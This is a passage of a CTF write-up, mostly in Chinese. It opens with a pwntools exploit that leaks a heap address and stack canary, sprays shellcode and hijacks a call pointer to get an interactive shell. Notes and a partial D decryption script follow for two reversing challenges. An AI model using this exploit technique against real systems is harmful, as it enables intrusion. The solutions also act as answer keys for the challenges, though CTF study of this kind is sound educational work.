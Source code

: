 ```
    payload = [[-10, p32(0x08048D30)]]
    addcall('ABCDABCDABCDABCD', 0, -1, payload)
    setcall('ABCDABCDABCDABCD')
    genshellcode()
    leak = ru('n')
    if len(leak) &lt; 8:
        info("failed leak.")
        exit(0)
    heap_addr = u32(leak[:4])
    canary = u32(leak[4:8])
    info("heap_addr = " + hex(heap_addr))
    info("canary = " + hex(canary))
    SPRAY_COUNT = 40
    for i in xrange(SPRAY_COUNT):
        leavemsg(len(sc), sc)
    if not LOCAL: offset = 0x30000   # remote
    else: offset = 0x20000    # local
    shellcode_addr = heap_addr + offset
    info("Jumping to = " + hex(shellcode_addr))
    payload = [[-10, p32(shellcode_addr)]]
    addcall('EXPLOIT_EXPLOIT_', 0, -1, payload)
    setcall('EXPLOIT_EXPLOIT_')
    genshellcode()
    sn(sc2)
    io.interactive()
    return
if __name__ == '__main__':
    pwn()
```



**Re**

**echo server**

主要的逻辑是比较输入是否是F1@gA，然后还有dword_804A088是否为0（这个需要手动 patch 成0），然后就会输出一个 hash 值，即为 flag。有些很常见的混淆手段。

**on the fly**

原题：[https://github.com/ernw/ctf-writeups/tree/master/csaw2016/deedeedee](https://github.com/ernw/ctf-writeups/tree/master/csaw2016/deedeedee) 

修改之处是，原题中 xor 的是当前计算出的输出的长度，而本题是输入的长度，故一直为 0x27，另外本题只循环到1 。解题脚本：



```
import std.range : cycle, zip;
import std.conv : to, hexString;
import std.stdio;
char[] enc(char[] data, string base ,int i) {
    auto len = cast(char) to!int(base.length);
    auto c = cycle(base);
    char[] res;
    foreach (tup; zip(c, data))
    {
        res ~= tup[0] ^ tup[1] ^ 0x27;
    }
    writeln(res);
    return res;
}
int main() {
    auto data = hexString!"585d5543506c2474252727272023222623277327257520212527772774247420702f202721756b";
    char[] res = data.dup;
    for (int i = 499; i &gt;= 1; --i) {
        string base = to!string(i);
```